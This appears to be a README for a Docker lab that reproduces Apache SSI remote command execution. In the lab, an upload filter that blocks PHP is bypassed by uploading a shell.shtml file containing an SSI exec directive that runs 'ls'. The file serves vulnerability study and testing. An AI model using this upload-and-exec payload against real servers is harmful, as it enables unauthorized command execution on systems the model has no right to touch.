 # Apache HTTP Server SSI Remote Command Execution

[中文版本(Chinese version)](README.zh-cn.md)

Apache HTTP Server with Server Side Includes (SSI) enabled allows server-side execution of commands through special SSI directives in HTML files. When misconfigured, this feature can be exploited through file upload vulnerabilities.

When testing arbitrary file upload vulnerabilities, the target server might block files with PHP extensions. However, if the server has SSI and CGI support enabled, attackers can upload an SHTML file and execute arbitrary commands using the `<!--#exec cmd="command" -->` syntax.

References:

- [Apache SSI Documentation](https://httpd.apache.org/docs/2.4/howto/ssi.html)
- [W3 SSI Directives](https://www.w3.org/Jigsaw/Doc/User/SSI.html)

## Environment Setup

Execute the following command to start an Apache HTTP Server with SSI and CGI support:

```
docker compose up -d
```

After the server is started, visit `http://your-ip:8080/upload.php` to access the upload form.

## Vulnerability Reproduction

While uploading PHP files is not allowed, we can upload a file named `shell.shtml` with the following content:

```shtml
<!--#exec cmd="ls" -->
```

![Upload Interface](1.png)

After successful upload, visiting the shell.shtml file will execute the command, demonstrating the vulnerability:

![Command Execution Result](2.png)
